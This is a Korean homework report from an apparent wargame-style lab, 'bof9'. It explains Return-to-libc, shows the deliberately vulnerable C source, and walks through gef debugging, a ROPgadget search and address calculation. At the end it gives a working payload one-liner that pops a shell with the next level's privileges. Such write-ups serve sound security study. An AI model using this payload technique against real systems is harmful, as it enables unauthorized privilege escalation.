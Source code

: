 # Report. HW8.

## RTL

"Return To Libc"의 약자이다. `RET` 영역을 원하는 **공유 라이브러리 함수의 주소**로 변경하여 이것을 호출하는 방식이다.


## `bof9`

<details><summary>bof9.c</summary>
  <p>

```c
// AFTER => bof8.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF

char * binsh = "/bin/sh";

void vuln(void) {
    char buf[BUF_SIZE];

    if (setreuid(UID_BOF10, UID_BOF10)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(UID_BOF10, UID_BOF10)) {
        perror("setgid");
        exit(1);
    }
    printf("system:%p\n", system);
    printf("binsh:%p\n", binsh);
    gets(buf);
    printf("Hello %s!\n", buf);
}

int main(void) {
    vuln();
    return 0;
}

```
</p></details>

`gets` 함수를 통해 입력을 받는다. 이전 수업내용이라면 BOF를 통해 쉘코드를 넣어서 권한을 얻을 수 있었겠지만, 이번엔 RTL 기법을 사용하여 권한을 얻어야 한다.

## 1. `buf`와 `RET` 간의 거리 확인

`b vuln`으로 `vuln` 함수 시작지점에 breakpoint를 걸고 실행을 해 보았다. 디버깅 실행 시 `RET`, 그러니까 `$rsp`의 주소를 확인해 보니

    $rsp : 0x00007fffffffe4a8 > 0x00005555555552b7 > <main+13> mov eax, 0x0
  
으로... 그러니까 `0x00007fffffffe4a8`이 나온다.

쭉 진행해서 `buf`에 입력을 받는 부분까지 가서 `buf`의 주소값을 확인해 보았더니

    gets@plt (
        $rdi = 0x00007fffffffe498 > 0x0000555555555100 > <_start+0> endbr64 ,
        $rsi = 0x0000000000000001
    )

...에서 `$rdi` 값인 `0x00007fffffffe498`이 나왔다. `main`의 `$rsp`와 16 차이가 나는 것이다. 즉... **`gets` 입력에서 16개의 더미 문자를 주고 그 뒤에 `/bin/sh` 실행 코드를 넣어주면** 되는 거겠지?



## 2. `/bin/sh`, `system`, 그리고 `pop rdi ; ret`

### `pop rdi ; ret`

디버깅 모드로 `bof9`를 실행하고 `vmmap` 명령어를 사용해 보았다. `bof9`와 매핑된 메모리 정보를 보여준다.

    gef➤  vmmap
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path
    0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /home/bof9/bof9
    0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /home/bof9/bof9
    0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /home/bof9/bof9
    0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /home/bof9/bof9
    0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /home/bof9/bof9
    0x0000555555559000 0x000055555557a000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /tmp/2.23/lib/libc.so.6
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /tmp/2.23/lib/libc.so.6
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /tmp/2.23/lib/libc.so.6
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /tmp/2.23/lib/libc.so.6
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /tmp/2.23/lib/ld-linux-x86-64.so.2
    0x00007ffff7ff3000 0x00007ffff7ff6000 0x0000000000000000 rw-
    0x00007ffff7ff6000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /tmp/2.23/lib/ld-linux-x86-64.so.2
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /tmp/2.23/lib/ld-linux-x86-64.so.2
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

...으로 나오는데, *실행 가능한* libc 코드의 주소값이 `0x00007ffff7a0d000`으로 나온다.

그리고... `ROPgadget.py`를 통해 `pop rdi ; ret`가 `/tmp/2.23/lib/libc.so.6`에서 위치해 있는 곳을 찾아보자.

    gef➤  !ROPgadget.py --binary /tmp/2.23/lib/libc.so.6 | grep "pop rdi ; ret"
    0x0000000000067495 : add byte ptr [rax], al ; add cl, ch ; pop rdi ; ret 0xffff
    0x0000000000067497 : add cl, ch ; pop rdi ; ret 0xffff
    0x000000000019dba2 : or byte ptr [rdx + 0xb], cl ; pop rdi ; ret
    0x0000000000021102 : pop rdi ; ret
    0x0000000000067499 : pop rdi ; ret 0xffff
    0x0000000000001c26 : pop rdi ; retf 0x49f2
    0x0000000000132e45 : pop rdi ; retf 0xffee
    
순전히 `"pop rdi ; ret"`만 있는 곳은 `0x0000000000021102`이다. 그러니까... `/tmp/2.23/lib/libc.so.6`에서 `pop rdi ; ret` 명령어를 쓰려면 이 둘의 주소값을 더해줘야 하는 것이다. 그러니까... 주소 `0x00007ffff7a2e102`를 참조해야 저 명령어를 사용할 수가 있다.


### `"/bin/sh"`

`bof9` 디버깅 중인 `gef` 내에서 "/bin/sh"에 대한 내용을 찾아보았다.

    gef➤  search-pattern "/bin/sh"
    [+] Searching '/bin/sh' in memory
    [+] In '/home/bof9/bof9'(0x555555556000-0x555555557000), permission=r--
      0x555555556004 - 0x55555555600b  →   "/bin/sh"
    [+] In '/home/bof9/bof9'(0x555555557000-0x555555558000), permission=r--
      0x555555557004 - 0x55555555700b  →   "/bin/sh"
    [+] In '/tmp/2.23/lib/libc.so.6'(0x7ffff7a0d000-0x7ffff7bcd000), permission=r-x
      0x7ffff7b99d57 - 0x7ffff7b99d5e  →   "/bin/sh"

이 중 위 2개 - 프로그램을 실행하면 문자열 `"/bin/sh"`가 있는 주소값은 저 2개 중 위의 것으로 나온다 - 는 *`bof9`에서 `"/bin/sh"`이 위치해 있는* 곳에 대한 내용이다. 우리가 사용할 건 `libc` 안에 있는 `"/bin/sh"`이다. 그러니까... 맨 밑에 있는 `0x00007ffff7b99d57`을 써야 한다.


### `system`

`bof9` 디버깅 중인 `gef`에서 system을 `print` 해 보라 해 보자.

    gef➤  p system
    $3 = {<text variable, no debug info>} 0x7ffff7a52390 <system>
    
프로그램을 그냥 실행해도 `system`의 주소값으로 `0x00007ffff7a52390`이 나온다(`bof9`에서 `system`의 주소값을 출력해주기도 한다).


## 3. 섞기

위에서 알아낸 것들을 요약하면 다음과 같다:

- `system`이 위치해 있는 주소값 : `0x00007ffff7a52390`
- `libc` 안에 있는 `"/bin/sh"`의 주소값 : `0x00007ffff7b99d57`
- `libc` 영역에서 `pop rdi ; ret` 명령어를 참조하기 위한 주소값 : `/tmp/2.23/lib/libc.so.6` 주소값 `0x00007fff7a0d000` + `pop rdi ; ret` 가젯의 주소값 `0x0000000000021102` = `0x00007ffff7a2e102`

이들을 `RET`에 넣어주어야 한다. 우리 입장에서 넣어주는 순서는... **'`pop rdi ; ret` 가젯 주소값 - `"/bin/sh"` 주소값 - `system` 주소값** 순이다. 이걸 payload로 작성하면 다음과 같다:

    (python -c "print('a' * 16 + '\x02\xe1\xa2\xf7\xff\x7f\x00\x00' + '\x57\x9d\xb9\xf7\xff\x7f\x00\x00' + '\x90\x23\xa5\xf7\xff\x7f\x00\x00')"; cat) | ./bof9
    
이걸 넣어주어 `bof10`의 비멀번호를 알 수 있었다.


# -- END --

